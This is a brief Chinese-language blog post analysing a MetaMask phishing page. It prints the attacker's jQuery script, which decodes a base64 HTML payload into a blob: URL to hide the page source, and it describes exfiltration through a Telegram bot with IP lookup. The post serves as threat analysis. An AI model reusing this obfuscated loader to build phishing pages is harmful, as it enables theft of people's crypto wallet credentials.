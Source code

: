 ```yaml
---
title: 釣魚新手法
description: 最近我在我的個人信箱裡取得了一個MetaMask釣魚郵件，但我在導覽釣魚網頁時發現了一個特別的東西
date: 2025-01-14
ldate: 2025-01-14
---
```

#  釣魚新手法
最近我在我的個人信箱裡取得了一個MetaMask釣魚郵件，但我在導覽釣魚網頁時發現了一個特別的東西
![](https://1qz92oj9ol.ufs.sh/f/CCLPSN5W2HD5lLpNwYV7tjKOZHLrAGbUcdNWuefTgPspQa8k)

[導向流程 (EN)](https://urlscan.io/result/a5980c31-86e2-4841-be73-9079c4dd79ea/#transactions) 

##  有趣的部分
這個釣魚是用 blob: (binary large object) 來解析，阻止用View page source

大多數的圖片與assets都用 polynethub . netlify . app 來傳到裝置，並用 Cloudflare R2 來運作。

在 index.html裡，Attacker用jquery來傳送被害人到blob: 的網頁上。
code: 
```
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>
<script>
$(document).ready(function() {
saveFile();});

function saveFile(name, type, data) {
if (data != null && navigator.msSaveBlob)
return navigator.msSaveBlob(new Blob([data], { type: type }), name);
var a = $("<a style='display: none;'/>");
var encodedStringAtoB = "PCFET0NUWVBFIGh0bWw+CjxodG1sIGxhbmc9ImVuIj4KPGhlYWQ+CiAgICA8bWV0YSBjaGFyc2V0PSJVVEYtO...3NjcmlwdD4KCgo8L2JvZHk+CjwvaHRtbD4=";
var decodedStringAtoB = atob(encodedStringAtoB);
const myBlob = new Blob([decodedStringAtoB], { type: 'text/html' });
const url = window.URL.createObjectURL(myBlob);|
a.attr("href", url);
$("body").append(a);
a[0].click();
window.URL.revokeObjectURL(url);
a.remove();
}
</script>
```



 ## 網頁
 ![](https://1qz92oj9ol.ufs.sh/f/CCLPSN5W2HD5GPtP9TiCp1MaquLXiHKkfB2O7ZVhPI9xjDzS)
 
到網頁後就是平常的用Telegram來傳送，但Attacker有增加ipinfo
![](https://1qz92oj9ol.ufs.sh/f/CCLPSN5W2HD5JYKOx4NnsGrSAZ5CLplKfRB3xmED1ovdF07Q)

我更改Bot Token後得到的Telegram 訊息:
![](https://1qz92oj9ol.ufs.sh/f/CCLPSN5W2HD5Wyo9PytHLzPys01vAgOGKaduwXt2bNYVQ7Bp)



